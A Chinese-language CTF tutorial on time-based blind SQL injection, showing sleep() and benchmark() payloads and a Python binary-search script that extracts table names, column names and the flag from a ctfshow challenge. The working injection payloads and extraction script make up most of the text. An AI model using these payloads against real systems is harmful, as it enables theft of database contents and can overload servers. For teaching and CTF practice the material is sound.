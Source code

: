 ## 时间盲注

时间盲注比布尔盲注高级一点，是在页面不存在回显的情况通过时间差进行注入，所以时间盲注还是比布尔盲注高级一点，一般来说能用布尔盲注的地方都能用时间盲注，比如语句：

```
select * from users where username=-1 || if(length(database())>8,sleep(3))
```

作用是如果length(database())>8则执行sleep(3)的操作，通过访问网页是否存在时间差来判断我们的语句是否正确执行，这里先不讲脚本的实现，先问一个问题，如果sleep被ban了还能时间盲注吗？当然是可以的，有很多方法都可以代替sleep。

### 时间盲注sleep被ban怎么办

### benchmark()

benchmark()函数的作用是重复执行某表达式，如benchmark(10000000,md5(‘yu22x’));
会计算10000000次md5(‘yu22x’)，因为次数很多所以就会产生延时，但这种方法对服务器会对产生很大的负荷，容易把服务器跑崩，如果崩掉的话就把time.sleep的值改大点，除了md5还可以使用其他函数，比如：

```
benchmark(1000000,encode("hello","good"));
benchmark(1e7,sha1('kradress'));
```

比如这是一个针对ctfshow web217的脚本(不得不说二分法就是快)：

```
import requests
import time


url="http://a0b31d2e-2090-4e10-8341-7392b5a4f0de.challenge.ctf.show/api/"
flag=''
for i in range(1,200):
    low=32
    high=128
    mid=(low+high)//2
    while low<high:
        # payload="0)or if((ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),{},1))>{}),BENCHMARK(1000000,md5('a')),0)#".format(i,mid)
        # payload="0)or if((ascii(substr((select group_concat(column_name) from information_schema.columns where table_name='ctfshow_flagxccb'),{},1))>{}),BENCHMARK(1000000,md5('a')),0)#".format(i,mid)
        payload="0)or if((ascii(substr((select group_concat(flagaabc) from ctfshow_flagxccb),{},1))>{}),BENCHMARK(1000000,md5('a')),0)#".format(i,mid)
        
        data={
            "ip":payload,
            "debug":0
        }
        time1=time.time()
        r=requests.post(url,data=data)
        time2=time.time()
        
        print(low,mid,high)
      

        if time2-time1>0.5:
            low=mid+1
        else:
            high=mid
        mid=(low+high)//2
    flag+=chr(mid)
    print(flag)
    if mid==32:
        print(flag)  
```